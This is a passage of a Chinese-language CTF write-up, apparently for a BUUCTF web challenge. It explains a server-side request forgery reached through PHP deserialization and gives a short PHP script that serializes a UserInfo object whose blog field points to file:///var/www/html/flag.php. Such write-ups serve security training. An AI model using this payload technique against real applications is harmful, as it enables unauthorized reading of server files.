 ```php
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

![image-20230612095813906](https://s1.ax1x.com/2023/06/12/pCZBV54.png)

这里可能存在ssrf（服务器端请求伪造）

查看内容时，源码![image-20230612095923679](https://s1.ax1x.com/2023/06/12/pCZBux1.png)

对应网页的博客内容，而我们爆出的字段data是序列化后的字符串

说明注册时会序列化我们的信息，回显到页面时再反序列化

这个data本来回显的是我们自己的博客，但我们把它改为回显flag.php就可以构成ssrf

```php
<?php
class UserInfo {
    public $name = "test111";
    public $age = 222;
    public $blog = "file:///var/www/html/flag.php";
}

$data = new UserInfo();
echo serialize($data);
?>
```

flag的路径是怎么得知的呢？

上面的bao报错可得到这样一个路径

<img src="https://s1.ax1x.com/2023/06/12/pCZDCJH.png" alt="image-20230612100606606" style="zoom:200%;" />

通常这种题目就是/flag.php或者如上，猜就好



查看源码，点进我们包含的内容

![image-20230612100702664](https://s1.ax1x.com/2023/06/12/pCZDFSA.png)

![image-20230612100720903](https://s1.ax1x.com/2023/06/12/pCZDkQI.png)

得到flag

## 10.	[BUUCTF 2018]Online Tool（命令执行）
